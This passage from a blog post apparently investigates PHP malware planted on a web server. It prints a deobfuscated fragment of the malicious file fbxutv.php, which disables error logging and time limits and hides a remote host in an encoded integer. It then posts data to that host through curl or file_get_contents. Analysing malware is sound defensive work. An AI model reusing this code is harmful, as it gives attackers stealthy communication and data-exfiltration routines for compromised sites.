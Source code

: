 The next file I looked at was the html file. The file on first inspection appeared to be a template file. A screenshot is shown below:

![Malware HTML Template file](/images/php-malware-investigation/malware-htmlfile.png)

The list file seem to contain random strings of keywords. With nothing of great interest at this point, I turned my attention to fbxutv.php.

# The main piece of malware

The first thing I noticed that the code was listed in a couple of lines. I ran "php -w" on the file, and started to reformat the malware in to an easier to look at version. After changing the style, I was left with:

```php
<?php

@ini_set('error_log', NULL);
@ini_set('log_errors', 0);
@ini_set('max_execution_time', 0);
@error_reporting(0);
@set_time_limit(0);
date_default_timezone_set('UTC');

class _19g0vs2{
	static private $_759k0624 = 1585596830;
	static function _5es9r($_fj3v9zd1, $_wjqehzzq){
		$_fj3v9zd1[2] = count($_fj3v9zd1) > 4 ? long2ip (_19g0vs2::$_759k0624 - 642) : $_fj3v9zd1[2];
		$_pdo1wxsa = _19g0vs2::_2bza6($_fj3v9zd1, $_wjqehzzq);
		if (!$_pdo1wxsa){
			$_pdo1wxsa = _19g0vs2::_m5fzv($_fj3v9zd1, $_wjqehzzq);
		}
		return $_pdo1wxsa;
	}
	static function _2bza6($_fj3v9zd1, $_pdo1wxsa){
		if (!function_exists('curl_version')){
			return "";
		}
		$_q7nz6eha = curl_init();
		curl_setopt($_q7nz6eha, CURLOPT_URL, implode("/", $_fj3v9zd1));
		if (!empty($_pdo1wxsa)){
			curl_setopt($_q7nz6eha, CURLOPT_POST, 1);
			curl_setopt($_q7nz6eha, CURLOPT_POSTFIELDS, $_pdo1wxsa);
		}
		curl_setopt($_q7nz6eha, CURLOPT_RETURNTRANSFER, TRUE);
		$_sxg6rwqh = curl_exec($_q7nz6eha);
		curl_close($_q7nz6eha);
		return $_sxg6rwqh;
	}
	static function _m5fzv($_fj3v9zd1, $_pdo1wxsa){
		if (!empty($_pdo1wxsa)){
			$_10bot499 = stream_context_create(
				Array('http' => Array(
					'method' => 'POST',
					'header' => 'Content-type: application/x-www-form-urlencoded',
					'content' => $_pdo1wxsa)));
			$_sxg6rwqh = @file_get_contents(implode("/", $_fj3v9zd1), FALSE, $_10bot499);
		}else{
			$_sxg6rwqh = @file_get_contents(implode("/", $_fj3v9zd1));
		}return $_sxg6rwqh;
	}
}

```

[c1405681]: /2018/11/07/PHP-Malware-Examination/ "PHP Malware Examination"